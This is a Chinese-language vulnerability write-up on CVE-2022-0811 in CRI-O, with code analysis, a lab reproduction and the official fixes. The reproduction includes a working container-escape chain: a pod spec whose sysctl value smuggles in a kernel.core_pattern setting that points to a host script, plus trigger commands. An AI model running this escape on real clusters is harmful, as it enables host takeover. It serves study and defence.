



# CVE-2022-0811

## 一、漏洞分析

CVE-2022-0811 是一个 CRI-O 漏洞，利用这个漏洞可以在创建容器时绕过 CRI-O 的限制，设置任意内核参数，并影响同一 k8s 节点下的其他容器。

在创建容器的时候，CRI-O 通过 pinns 来设置内核参数，格式如下：

```shell
pinns -s key1=val1+key2=val2
```

可以看到 pinns 使用“+”字符来分割每个键值对。在调用 pinns 之前，CRI-O 会先检查每个 key 的前缀，只有在 key 的前缀在白名单里时，才允许设置内核参数 [1.1]：

```go
var prefixNamespaces = map[string]Namespace{
    "kernel.shm": IpcNamespace,
    "kernel.msg": IpcNamespace,
    "fs.mqueue.": IpcNamespace,
    "net.":       NetNamespace,
}

// Validate checks that a sysctl is whitelisted because it is known to be
// namespaced by the Linux kernel. The parameters hostNet and hostIPC are used
// to forbid sysctls for pod sharing the respective namespaces with the host.
// This check is only used on sysctls defined by the user in the crio.conf
// file.
func (s *Sysctl) Validate(hostNet, hostIPC bool) error {
    ......
    for p, ns := range prefixNamespaces {
        if strings.HasPrefix(s.Key(), p) {
            if ns == IpcNamespace && hostIPC {
                return errors.Errorf(nsErrorFmt, s.Key(), ns)
            }
            if ns == NetNamespace && hostNet {
                return errors.Errorf(nsErrorFmt, s.Key(), ns)
            }
            return nil
        }
    }
    return errors.Errorf("%s not whitelisted", s.Key())
}
```

如同前面提到的那样，CRI-O 在调用 pinns 的时候，是直接把每个键值对用“+”拼接起来的 [1.2]：

```go
func getSysctlForPinns(sysctls map[string]string) string {
    // this assumes there's no sysctl with a `+` in it
    const pinnsSysctlDelim = "+"
    g := new(bytes.Buffer)
    for key, value := range sysctls {
        fmt.Fprintf(g, "'%s=%s'%s", key, value, pinnsSysctlDelim)
    }
    return strings.TrimSuffix(g.String(), pinnsSysctlDelim)
}
```

然而，上面的检查操作并没有对 value 进行检查，因此，可以通过在内核参数的 value 中加入另一对键值对来绕过 key 的检查，例如“value1+key2=value2”，其中 key2 和 value2 就是另一个内核参数的键值对，这样，最终调用 pinns 时的参数就是“key1=value1+key2=value2”，key2 绕过了检查，但仍会被 pinns 识别并设置。

## 二、漏洞复现

### 环境搭建

* Linux: Ubuntu 22.04
* Kubernetes: 1.23.4
* CRI-O: 1.23.1

运行 bash 命令来搭建环境：

```shell
sudo ./metarget cnv install cve-2022-0811 --verbose
```

其中，CRI-O 可能需要额外安装，详情可参考[CRI-O 安装文档](https://github.com/cri-o/cri-o/blob/main/install.md#install-packaged-versions-of-cri-o)。

### 复现步骤

创建一个新的 Pod，配置文件（[pod-a.yaml](pod-a.yaml)）内容如下[2.1]：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-a
spec:
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```

进入 `pod-a` 的 `shell`：

```shell
kubectl create -f pod-a.yaml
kubectl exec -it pod-a -- /bin/sh
```

通过 `mount` 命令，可以得到如下结果：



其中，`upperdir` 为 **/var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff** ，这是内核到容器根目录的路径。

创建一个脚本文件 [malicious.sh](malicious.sh)，内容为：

```shell
#!/bin/sh
date >> /var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff/output
```

用 `chmod a+x` 为这个文件添加执行权限，然后在根目录下 `touch` 一个 `output` 文件。

接下来创建另一个Pod（[pod-b.yaml](pod-b.yaml)），内容为：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-b
spec:
  securityContext:
   sysctls:
   - name: kernel.shm_rmid_forced
     value: "1+kernel.core_pattern=|/var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff/malicious.sh #"
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```

再次进入 `pod-a` 的shell，获取 **/proc/sys/kernel/core_pattern** 的内容：



最后在 `pod-a` 中的 `shell` 触发容器逃逸漏洞，可以在宿主机上执行恶意脚本内容[2.2]：

```shell
ulimit -c ulimited
tail -f /dev/null &
ps
kill -SIGSEGV <PID>
ps
```



此时再次查看 `output` 文件，就可以得到脚本输出的内容（date），说明造成了 `pod-a` 到宿主机的逃逸：

```shell
# cat output
2025年 04月 13日 星期日 17:55:37 CST
```

## 官方修复

CRI-O 官方发布了两个修复版本，第一个版本对 key 和 value 都进行检查，判断里面是否包含“+”，如果包含则会返回错误 [3.1]：

```go
for key, value := range sysctls {
    if strings.Contains(key, pinnsSysctlDelim) || strings.Contains(value, pinnsSysctlDelim) {
        return "", errors.Errorf("'%s=%s' is invalid: %s found yet should not be present", key, value, pinnsSysctlDelim)
    }
    fmt.Fprintf(g, "'%s=%s'%s", key, value, pinnsSysctlDelim)
}
```

第二个版本则是修改了 pinns 的调用方式，通过多个“-s”来设置多个内核参数，而不是像之前那样用“+”拼接起来 [3.2]：

```go
for key, value := range cfg.Sysctls {
    pinnsArgs = append(pinnsArgs, "-s", fmt.Sprintf("%s=%s", key, value))
}
```

## 参考

[1.1] [https://github.com/cri-o/cri-o/blob/v1.23.1/pkg/config/sysctl.go#L73](https://github.com/cri-o/cri-o/blob/v1.23.1/pkg/config/sysctl.go#L73)

[1.2] [https://github.com/cri-o/cri-o/blob/v1.23.1/internal/config/nsmgr/nsmgr.go#L174](https://github.com/cri-o/cri-o/blob/v1.23.1/internal/config/nsmgr/nsmgr.go#L174)

[2.1] [https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)

[2.2] [https://github.com/h4ckm310n/Container-Vulnerability-Exploit/blob/main/CVE-2022-0811/README.md](https://github.com/h4ckm310n/Container-Vulnerability-Exploit/blob/main/CVE-2022-0811/README.md)

[3.1] [https://github.com/cri-o/cri-o/commit/c0b2474b80fd0844b883729bda88961bed7b472b](https://github.com/cri-o/cri-o/commit/c0b2474b80fd0844b883729bda88961bed7b472b)

[3.2] [https://github.com/cri-o/cri-o/commit/76f1301c9eb979cbecdbbbb41ed72774285a814c](https://github.com/cri-o/cri-o/commit/76f1301c9eb979cbecdbbbb41ed72774285a814c)
